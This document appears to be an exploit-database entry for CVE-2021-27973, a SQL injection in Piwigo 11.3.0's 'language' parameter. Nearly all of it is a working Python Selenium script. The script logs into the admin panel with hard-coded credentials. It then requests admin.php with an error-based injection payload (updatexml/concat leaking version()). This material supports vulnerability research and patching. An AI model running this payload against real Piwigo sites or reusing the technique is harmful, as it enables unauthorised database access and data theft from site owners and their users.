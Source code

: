 EXP
---

    # Exploit Title: Piwigo 11.3.0 - 'language' SQL
    # Author: @nu11secur1ty
    # Testing and Debugging: nu11secur1ty
    # Date: 04.30.2021
    # Vendor: https://piwigo.org/
    # Link: https://github.com/Piwigo/Piwigo/releases/tag/11.3.0
    # CVE: CVE-2021-27973

    [+] Exploit Source:

    #!/usr/bin/python3
    # Author: @nu11secur1ty
    # Debug: @nu11secur1ty
    # CVE-2021-27973

    from selenium import webdriver
    import time


    #enter the link to the website you want to automate login.
    website_link="http://192.168.1.3/piwigo/"

    #enter your login username
    username="admin"

    #enter your login password
    password="password"

    #enter the element for username input field
    element_for_username="username"

    #enter the element for password input field
    element_for_password="password"

    #enter the element for submit button
    element_for_submit="login"

    print("Loading... ;)")
    time.sleep(1)
    browser = webdriver.Chrome()
    browser.get((website_link))

    try:
    username_element = browser.find_element_by_name(element_for_username)
    username_element.send_keys(username)
    password_element  = browser.find_element_by_name(element_for_password)
    password_element.send_keys(password)
    signInButton = browser.find_element_by_name(element_for_submit)
    signInButton.click()

    # Languages Exploit
    time.sleep(5)
    browser.get(("
    http://192.168.1.3/piwigo/admin.php?page=languages&language=TR_CN%27%20or%20updatexml(1%2Cconcat(0x7e%2C(version()))%2C0)%20or%20%27&action=activate"))

    print("The payload for category Languages is deployed...\n")

    except Exception:
    #### This exception occurs if the element are not found in the webpage.
    print("Some error occured :(")
